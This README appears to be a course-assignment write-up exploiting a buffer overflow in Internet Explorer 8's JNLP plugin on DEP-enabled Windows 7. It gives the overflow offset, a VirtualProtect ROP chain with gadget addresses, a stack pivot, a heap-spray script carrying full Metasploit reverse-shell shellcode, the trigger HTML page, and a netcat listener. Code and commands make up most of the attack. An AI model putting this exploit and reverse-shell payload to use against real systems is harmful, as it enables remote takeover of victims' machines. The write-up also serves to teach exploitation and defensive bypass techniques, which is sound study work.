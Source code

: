 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique in a DEP-Enabled (Data Execution Prevention) Windows 7 machine

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a **launchjnlp** parameter, it will copy the value of the **docbase** parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal
Input a sufficiently long string in the **docbase** value such that we have control of the program by overwriting $ebp and $eip to run a shellcode that establishes a reverse TCP connection to another machine.


## How it's done
To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! This shellcode's goal is to establish a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt is obtained in the client instead of in the attacker's machine (Ubuntu Linux, in this case).

Ideally, when the victim clicks on  *Click Me*, the shellcode should be executed. However, the big obstacle preventing this is called DEP. DEP is a system-level memory protection feature that is built into the operating system; it marks memory regions as non-executable, and therefore, it prevents the execution of code from data pages such as the heap, stacks, and memory pools.

To go around this, we are going to call Virtual Protect. VirtualProtect is a kernel32.dll function that can be used to change the execution permissions of a page. We can specify the pointer to the memory address that we want to mark as executable. To be able to call it, we need to use the principles of Return Oriented Programming (or ROP). Since there is a buffer overflow vulnerability in the JNLP invocation, we can set/overwrite whatever values we want on $ebp and $eip, thus, controling the execution of the program with the goal of calling VirtualProtect.


## Specific Steps
0. Two machines are used to demonstrate this vulnerability. A Windows 7 VM acts as the client, and an Ubuntu Linux VM acts as the web server.

1. Test different length inputs for **docbase** to determine the number of bytes needed to override $$ebp and eip. In this case, 388 bytes is the maximum amount of bytes that can be placed on the buffer before starting to overwrite $ebp and $eip. 

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP would make the demo realistic, but it would not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To insert a call to VirtualProtect, we need to chain the necessary frames with gadgets from a library that is not compatible with ASLR.
To determine which libraries are not compatible with ASLR, I ran `!load narly` and `!nmod` in WinDBG. I confirmed that msvcr71.dll was a good candidate, so I downloaded it and used Skyrack to find the primitive operations (gadgets) addresses that I was interested in. These gadgets will exist in said addresses in every execution of the program because they are not affected by ASLR.

*Note that the shellcode address used in this block can only be determined after step #5 and #6. I was using 0x41414141 for testing purposes until I found a realiable address for my shellcode.*
```
%u4242%u4242 Any bytes						  (0x42424242) *
%u4cc1%u7c34 pop eax; ret                     (0x7C344cc1)
%ua158%u7c37 Virtual Protect Stub             (0x7C37A158)
%u64bf%u7c35 call dword ptr [eax-18h] ; ret   (0x7C3564BF)
%u2208%u0808 parameter 1: Shellcode Address   (0x08082208)
%u4000%u0000 parameter 2: Size of region      (0x00004000)
%u0040%u0000 parameter 3: Protection Bits RWX (0x00000040)
%u0a0a%u0a0a parameter 4: Old protection value(0x0a0a0a0a) [Any writable]
%u2208%u0808 Shellcode Address                (0x08082208) **
	* Due to the Standard calling convention, after “ret,” ESP register does not directly point to the next word of Saved EIP.
The callee function cleans local variable; thus ESP will point to right after the function parameters on the stack. Which is why we can use any bytes as the beggining of the ROP chain.
	** Return from previos gadget (as its page is executable, shellcode will proceed to run)
```

```%u4242%u4242%u4cc1%u7c34%ua158%u7c37%u64bf%u7c35%u2208%u0808%u0040%u0000%u4000%u0000%u0a0a%u0a0a%u2208%u0808```

Now, the problem with these ROP chain is that it contains null bytes and the program crashes when it is running the gadgets.
For this problem, we use another technique called "Stack pivot" or "Stack flip". That is, we set $esp to point to a heap region which has been sprayed with the ROP chain.

4. Stack Pivot/Flip:

To set $esp to point to our ROP chain, we can use the gadget `leave; ret`, which consists of the following instructions:

* LEAVE = MOV ESP, EBP; POP EBP
* RET = POP EIP

Because we have control of $ebp due to the buffer overflow, we can place the address of the ROP frames on it, as it will later be copied to $esp (MOV ESP, EBP)

The address of this gadget is 0x7c3411a4. 

5. Heap Spraying:
Because we have to pieces of code that we want to spray on the heap, I decided to concatenate both; the ROP chain followed by the shellcode.

To spray the heap with the shellcode, an array **a** is initialized and a function **heap_spray()** is specified to populate **a**

Notice that the first chunk of bytes in the shellcode variable corresponds to the ROP chain created in step #3 and the rest corresponds to the shellcode generated in step #2.

We want to have predictable addresses for both of these pieces of code. This is called "Targeted Heap Spray," and this [article](http://www.exploit-monday.com/2011/08/targeted-heap-spraying-0x0c0c0c0c-is.html?m=1) does a great job explaining how it can be done. 
```javascript
   function heap_spray() {

      var shellcode = unescape("%u4242%u4242%u4cc1%u7c34%ua158%u7c37%u64bf%u7c35%u2208%u0808%u4000%u0000%u0040%u0000%u0a0a%u0a0a%u2208%u0808%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u1a00%u890a%u6ae6%u5610%u6857%ua599%u6174%ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900%u57e3%u5757%uf631%u126a%u5659%ufde2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5%u4ee0%u4656%u30ff%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff")
      
      while(shellcode.length <= 100000) {
         shellcode += shellcode;
      }

      var a_megabyte = shellcode.substr(0, (1024*64)/2);

      for(i = 0; i<14; i++) {
          a_megabyte += shellcode.substr(0, (1024*64)/2);
      }

      a_megabyte += shellcode.substr(0, (1024*64/2)-(38/2));

      for(i = 0; i < 100; i++){
        a[i] = a_megabyte.substr(0, a_megabyte.length);
      }
   }
```
The bytes are passed to the function **unescape()** to let javascript know that the string is already represented in hex. 


6. Loading our html page that contains an executes **heap_spray()** and attaching the IE tab with WinDBG, we can search for specific bytes that we know are present in the shellcode. 
Executing `s 0x00000000 L?0x7FFFFFFF fc e8 82 00` and `s 0x00000000 L?0x7FFFFFFF 42 42 42 42` in WinDBG is useful to get both the address of the ROP chain and the address of the shellcode.

I chose 0x08082208 as the address of the shellcode and 0x08080ccc as the address of the ROP chain. Because of step #4, the address of `ret; leave` should be placed on the right place to overwrite $ebp, and the address of the ROP chain should be placed on $eip.

As follows:
```html
   .
   .
   function trigger() {
      var buf = "";
      for(i = 0; i < 388; i++){
          buf += "\x41";
      }
      buf += "\xcc\x0c\x08\x08"; // ebp : make it the beggining of rop frames
      buf += "\xa4\x11\x34\x7c"; // eip : ret; leave

      var htmlTags =
         "<object type='application/x-java-applet'>" +
         "<param name='launchjnlp' value='1'>" +
         "<param name='docbase' value='" + buf + "'>" +
         "</object>";

      document.write(htmlTags);
   }
   </script>
</head>
<body onload="heap_spray()">
   <input type="button" value="Click Me" onclick="trigger()">
</body>
</html>
```

This means that as soon as the victim clicks on the page (jnlp1.html), the heap should be sprayed because of `<body onload="heap_spray">`


7. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.


